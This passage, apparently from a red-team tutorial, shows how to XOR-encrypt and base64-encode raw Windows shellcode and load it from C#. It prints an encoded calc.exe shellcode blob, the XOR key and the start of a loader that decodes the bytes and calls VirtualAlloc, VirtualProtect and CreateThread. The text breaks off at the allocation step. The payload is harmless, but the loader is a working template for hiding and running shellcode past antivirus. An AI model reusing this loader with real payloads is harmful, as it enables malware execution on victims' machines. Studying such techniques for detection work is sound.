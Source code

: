 ```python
base64Shellcode = b64EncodeShellCode(encryptedShellCode)
print(base64Shellcode)
```

When I run this script on `calc-thread64.bin` raw shellcode file, I get the following XOR encrypted and base64'd shellcode:

```python
> python shellcode-encrypt.py
sQDWrrPQ8jdBSwI7cB0aBBwLCeBSCcARCnnGGk0CyGoSf8o5EyI++gIfB3LxegaB538LTU9kdQuC8T92QIqhh2MMGR3BERi5dX0DQrq6zcBVSkNwt/c1LAtr4R3DHVIHs3IXCEqTiWcFt5wLyAy6f0CdDlv4BXmV5gL5+zoASoJS0Ti5GUkPHDpyeJo2smkJwxVuCjniUQDATyJ1xghJA0Loc7xFwwtr4QwQFBIdYWh2GQoaK2sFy7lqAmrN1xkKGjB5xlq8HbzHzWoJ8UJqMU1IVUpDcL+6QEpDanD3ed4lxMfnjKFWaWBw9+7A997H53/Cj2tWNzFC1bGjTTeMBlgxBVtNERTDmcfnVCAnIERUNS1V
```

Next, we'll take this base64 encrypted shellcode and use it in a C# payload sample where we'll need to base64 decode and then XOR decrypt the shellcode before executing. It's also important to use the same XOR key for decryption that we used for encryption above, otherwise it won't decrypt properly.

```csharp
namespace Test
{
    class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static UInt32 PAGE_READWRITE = 0x04; //RW
        static UInt32 PAGE_EXECUTE_READ = 0x20; //RX

        static string encryption_key = "MHUJC827AKCj1"; // Same key used for encryption/decryption

        // Main function
        static void Main(string[] args)
        {
            // XOR encrypted and base64'd Calc.exe shellcode
            string base64 = @"sQDWrrPQ8jdBSwI7cB0aBBwLCeBSCcARCnnGGk0CyGoSf8o5EyI++gIfB3LxegaB538LTU9kdQuC8T92QIqhh2MMGR3BERi5dX0DQrq6zcBVSkNwt/c1LAtr4R3DHVIHs3IXCEqTiWcFt5wLyAy6f0CdDlv4BXmV5gL5+zoASoJS0Ti5GUkPHDpyeJo2smkJwxVuCjniUQDATyJ1xghJA0Loc7xFwwtr4QwQFBIdYWh2GQoaK2sFy7lqAmrN1xkKGjB5xlq8HbzHzWoJ8UJqMU1IVUpDcL+6QEpDanD3ed4lxMfnjKFWaWBw9+7A997H53/Cj2tWNzFC1bGjTTeMBlgxBVtNERTDmcfnVCAnIERUNS1V";

            // Base64 decode
            byte[] decoded = Convert.FromBase64String(base64);
            byte[] shellcode = new byte[decoded.Length];

            // XOR decrypt
            for (int i = 0; i < decoded.Length; i++)
                shellcode[i] = ((byte)(decoded[i] ^ encryption_key[(i % encryption_key.Length)]));

            // 1. Allocate shellcode
```